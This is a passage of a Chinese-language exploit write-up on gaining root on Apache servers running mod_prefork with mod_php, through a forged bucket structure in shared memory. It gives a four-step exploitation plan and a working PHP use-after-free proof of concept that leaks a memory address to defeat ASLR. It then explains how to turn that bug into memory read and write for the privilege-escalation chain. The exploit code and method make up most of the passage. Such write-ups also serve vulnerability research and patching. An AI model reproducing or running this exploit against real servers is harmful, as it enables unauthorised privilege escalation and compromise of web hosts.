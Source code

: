 

## 0x04 利用

利用分4个步骤
- 获得工作进程的R/W访问权限
- 在共享内存中写一个假的prefork_child_bucket结构
- 使all_buckets [bucket]指向该结构
- 等待早上6:25获得任意函数调用
问题：PHP不允许读写/proc/self/mem， 这会阻止我们利用简单方法编辑共享内存

#### 获取工作进程内存的R/W访问权限

##### PHP UAF 0-day

由于mod_prefork经常与mod_php结合使用，因此通过PHP利用漏洞似乎很自然。我们使用PHP 7.x中的0day UAF（这似乎也适用于PHP5.x）来完成利用(也可以利用CVE-2019-6977)

```
&lt;?php

class X extends DateInterval implements JsonSerializable
`{`
  public function jsonSerialize()
  `{`
    global $y, $p;
    unset($y[0]);
    $p = $this-&gt;y;
    return $this;
  `}`
`}`

function get_aslr()
`{`
  global $p, $y;
  $p = 0;

  $y = [new X('PT1S')];
  json_encode([1234 =&gt; &amp;$y]);
  print("ADDRESS: 0x" . dechex($p) . "\n");

  return $p;
`}`

get_aslr();
```

这是PHP对象上的UAF： 我们unset $y[0]（X的一个实例），但它仍然可以通过$this使用。

##### UAF导致读/写

我们希望实现两件事：
- 读取内存以查找all_buckets的地址
- 编辑共享内存，修改bucket，添加我们自定义的恶意结构
幸运的是，PHP的堆位于内存中的那两个之前。
